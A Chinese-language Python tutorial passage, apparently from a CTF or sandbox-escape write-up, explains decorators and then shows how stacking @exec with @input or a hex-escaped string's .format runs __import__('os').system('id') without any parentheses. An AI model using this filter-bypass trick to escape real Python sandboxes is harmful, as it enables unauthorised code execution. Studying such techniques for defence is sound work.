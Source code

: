 我們在最前面定義了一個叫 `my_decorator` 的函式，他的參數預期傳入一個函式 `func`，並在裡面定義了一個子函式 `wrapper` 在呼叫 `func` 前後印一些東西，最後把這個子函式當作回傳值。

裝飾器本質上是一個「接受 function 並回傳新 object（通常也是 function）」的 callable。裝飾器語法可以套在 `class` 上：

```python
@my_decorator
class Z:
    def __init__(self):
        print('init Z')

z = Z()
"""
>> start func
init Z
>> end func
"""
```



在寫出上述的語法後，Python 直譯器就幫你執行完裝飾器函式，且替換回原本的函式了，由於整個行為裡面不需要任何括號，且他會幫你把結果放回來，所以我們可以利用這兩點做到疊裝飾器來寫程式。

```python
@print
class Z:
    pass

"""
<class '__main__.Z'>
"""
```

裝飾器函式在這裡是 `print`，他將類別 `__main__.Z`作為傳入值，最終的結果就是印出這個類別。

裝飾器可以不只放一個，所以我們可以做到以下操作：

```python
@exec
@input
class Z:
    pass

"""
<class '__main__.Z'>__import__('os').system('id')
uid=0(root) gid=0(root) groups=0(root)
"""
```

裝飾器的執行順序是從最靠近函式的開始，然後往上。先執行 input 拿到使用者輸入 `__import__('os').system('id')` 惡意字串（），之後放回原類別，所以現在 Z 就是惡意字串。下一個裝飾器 `exec` 就會拿惡意字串進 `exec` 執行了，可以看到整段都沒有任何的括號。

前面會有 `<class '__main__.Z'>` 是因為 input 的傳入值是 class Z，就跟 `input('>>')`會印出 `>>` 是一樣的。



如果因為各種因素沒辦法用 input，但你想要拿到任意字串的話，可以這樣：

```python
@exec
@"__import__\x28'os'\x29.system\x28'id'\x29".format
class Z:
    pass

"""
uid=0(root) gid=0(root) groups=0(root)
"""
```
